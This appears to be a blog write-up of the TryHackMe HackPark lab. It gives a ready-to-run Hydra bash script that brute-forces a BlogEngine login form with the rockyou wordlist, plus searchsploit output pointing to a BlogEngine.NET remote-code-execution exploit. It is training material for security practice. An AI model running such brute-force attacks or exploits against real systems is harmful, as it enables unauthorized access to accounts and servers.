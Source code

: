 ```yaml
---
layout: post
title: Hacking
tags: ['security', 'cryptography']
icon: shield-lock
---
```


### TryHackMe

####  HackPark

Includes:
  - Windows
  - Hydra 
    - brute forcing credentials
  - Web application exploits
    - File inclusion
    - Directory traversal
  - WinPEAS
  - Metasploit
    - Stabilizing shells
  - Privilege Escalation

We can browse to the server via the internet to find a blog called `BlogEngine`. From here we can find a login page & can use hydra to try and exploit this.

##### Hydra

Try to login using random credentials & capture the body of the post request and note and changes on the page that would indicate a failed login.

Using this information we can create a quick bash script to run a bruteforce hydra attack against the web form - using the post body as `$form` and replacing the username and password with `^USER^` & `^PASS^` for hydra to replace these with the values we give it to run through. And use 'Login failed' as our failure condition.

```bash
#!/bin/bash

form="__VIEWSTATE=<redacted-for-clarity>&__EVENTVALIDATION=<redacted-for-clarity>&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in"

hydra -vV -l admin -P /usr/share/wordlists/rockyou.txt \
10.10.186.90 http-post-form \
"/Account/login.aspx?ReturnURL=/admin/:$form:F=Login failed"
```

After about 30s we find the password and can now login.

##### Exploiting `BlogEngine`

Using `searchsploit` to find exploits:
```bash
$> searchsploit blogengine

BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution | aspx/webapps/46353.cs
```
